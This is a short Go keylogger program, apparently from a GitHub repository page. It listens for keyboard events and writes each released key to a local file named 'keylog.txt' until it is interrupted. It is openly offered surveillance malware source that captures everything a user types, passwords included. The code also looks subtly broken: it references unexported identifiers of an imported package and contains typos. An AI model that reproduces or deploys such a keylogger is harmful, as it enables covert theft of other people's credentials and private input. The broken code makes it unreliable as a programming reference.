 # keyboard

package main

import (
	"fmt"
	"os"
	"os/signal"
	"syscall"

	"github.com/ritikkumar12345/keyboard"
)

func main() {
	//Initialize the keylogger listner
	kb, err := keyboard.NewKeyboard()
	if err != nil {
		fmt.Printf("Failed to initialize keyboard listner: %v\n", err)
		return
	}

	//Open a file to store logged keystrokes
	file, err := os.Create("keylog.txt")
	if err != nil {
		fmt.Printf("Failed to create keylog file: %v\n ", err)
		return
	}
	defer file.Close()

	//Start listening for keyboard events
	err = kb.Start()
	if err != nil {
		fmt.Printf("Failed to start keyboard listner: %v\n", err)
		return
	}

	//Handle Ctrc+C signal to stop the keylogger
	signalChan := make(chan os.Signal, 1)
	signal.Notify(signalChan, syscall.SIGINT, syscall.SIGTERM)
	go func() {
		<-signalChan
		fmt.Println("\nStopping keylogger....")
		kb.stop()

	}()

	fmt.Println("Keylogger started. Press Ctrl+C to stop.")

	// Log keystokes
	for {
		event := <-kb.Events
		if event.Err != nil {
			fmt.Printf("Failed to read keyboard event: %v\n", event.Err)
			continue
		}

		if event.Kind == keyboard.keyRelease {
			// Write the key to the log file
			file.WriteString(fmt.Sprintf("%s\n", event.key))
		}

	}
}
